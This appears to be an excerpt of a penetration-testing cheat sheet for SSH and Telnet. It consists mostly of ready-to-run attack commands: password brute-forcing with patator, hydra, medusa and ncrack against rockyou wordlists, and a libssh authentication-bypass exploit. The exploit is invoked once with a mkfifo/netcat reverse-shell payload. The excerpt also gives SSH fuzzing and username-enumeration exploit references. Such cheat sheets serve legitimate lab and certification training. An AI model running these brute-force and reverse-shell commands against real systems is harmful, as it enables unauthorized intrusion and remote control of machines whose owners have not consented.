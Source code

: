 ```bash
...
debug1: Next authentication method: password

# BruteForce:
patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

# LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access 
# Id
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
# Reverse
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

# SSH FUZZ
# https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt

# cpan Net::SSH2
./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

# SSH-AUDIT
# https://github.com/arthepsy/ssh-audit                     

# Enum users < 7.7:
# https://www.exploit-db.com/exploits/45233
https://github.com/CaioCGH/EP4-redes/blob/master/attacker/sshUsernameEnumExploit.py
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"

# SSH Leaks:
https://shhgit.darkport.co.uk/

# SSH bruteforce
# https://github.com/kitabisa/ssb
```

## Port 23 - Telnet

```bash
# Get banner
telnet 10.11.1.110
# Bruteforce password
patator telnet_login host=10.11.1.110 inputs='FILE0\nFILE1' 0=/root/Desktop/user.txt 1=/root/Desktop/pass.txt  persistent=0 prompt_re='Username: | Password:'
```
